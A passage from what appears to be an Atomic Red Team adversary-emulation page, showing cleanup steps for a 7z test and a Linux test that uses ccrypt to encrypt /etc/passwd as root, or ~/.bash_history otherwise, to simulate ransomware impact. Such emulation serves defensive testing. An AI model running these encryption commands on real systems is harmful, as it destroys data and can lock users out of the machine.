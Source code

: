 #### Cleanup Commands:
```bash
$which_7z e #{encrypted_file_path}
rm #{encrypted_file_path}
```



#### Dependencies:  Run with `bash`!
##### Description: Finds where 7z is located
##### Check Prereq Commands:
```bash
which_7z=`which 7z`
```
##### Get Prereq Commands:
```bash

```




<br/>
<br/>

## Atomic Test #3 - Encrypt files using ccrypt (Linux)

auto_generated_guid: 08cbf59f-85da-4369-a5f4-049cffd7709f

Attempts to encrypt data on target systems as root to simulate an inturruption authentication to target system. If root permissions are not available then attempts to encrypt data within user's home directory.
**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cped_file_path | path where you want your copied file to be | Path | /tmp/passwd|
| root_input_file_path | path to the file that you want to be encrypted if you are root user | Path | /etc/passwd|
| user_input_file_path | path to file that you want to be encrypted if you are normal user | Path | ~/.bash_history|
| impact_command | command to show impact of encryption | String | sudo su|


#### Attack Commands: Run with `bash`! 


```bash
if [[ $USER == "root" ]]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
```
